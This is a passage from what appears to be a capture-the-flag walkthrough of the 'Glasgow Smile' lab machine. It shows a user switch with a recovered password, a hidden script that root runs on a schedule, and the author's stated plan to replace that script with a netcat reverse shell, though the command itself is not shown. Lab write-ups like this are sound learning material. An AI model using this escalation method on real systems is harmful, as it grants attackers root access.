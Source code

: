 As we can see the unzipped file contains penguin's password, so I switched to it.

```console
abner@glasgowsmile:~$ su penguin
Password: 
penguin@glasgowsmile:/home/abner$ id
uid=1002(penguin) gid=1002(penguin) groups=1002(penguin)
```

Penguin's home directory contains a hidden file named "trash_old".

```console
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ ls -la
total 332
drwxr--r-- 2 penguin penguin   4096 Jun 16  2020 .
drwxr-xr-x 5 penguin penguin   4096 Jun 16  2020 ..
-rwSr----- 1 penguin penguin 315904 Jun 15  2020 find
-rw-r----- 1 penguin root      1457 Jun 15  2020 PeopleAreStartingToNotice.txt
-rwxr-xr-x 1 penguin root       612 Jun 16  2020 .trash_old
-rw-r----- 1 penguin penguin     38 Jun 16  2020 user3.txt
```

```console
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ cat .trash_old 
#/bin/sh

#       (            (              )            (      *    (   (
# (      )\ )   (     )\ ) (      ( /( (  (       )\ ) (  `   )\ ))\ )
# )\ )  (()/(   )\   (()/( )\ )   )\()))\))(   ' (()/( )\))( (()/(()/( (
#(()/(   /(_)((((_)(  /(_)(()/(  ((_)\((_)()\ )   /(_)((_)()\ /(_)/(_)))\
# /(_))_(_))  )\ _ )\(_))  /(_))_  ((__(())\_)() (_)) (_()((_(_))(_)) ((_)
#(_)) __| |   (_)_\(_/ __|(_)) __|/ _ \ \((_)/ / / __||  \/  |_ _| |  | __|
#  | (_ | |__  / _ \ \__ \  | (_ | (_) \ \/\/ /  \__ \| |\/| || || |__| _|
#   \___|____|/_/ \_\|___/   \___|\___/ \_/\_/   |___/|_|  |_|___|____|___|
#

#

 
exit 0
```

Listing the processes we can see that this script is executed, possibly due to a cronjob.

```console
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ ps auxwe
...
root       2761  0.0  0.1   2388   696 ?        Ss   23:23   0:00 /bin/sh -c /home/penguin/SomeoneWhoHidesBehindAMask/.trash_old
...
```


### Cron Job

I edited the "trash_old" file, assigning it a netcat reverse shell.
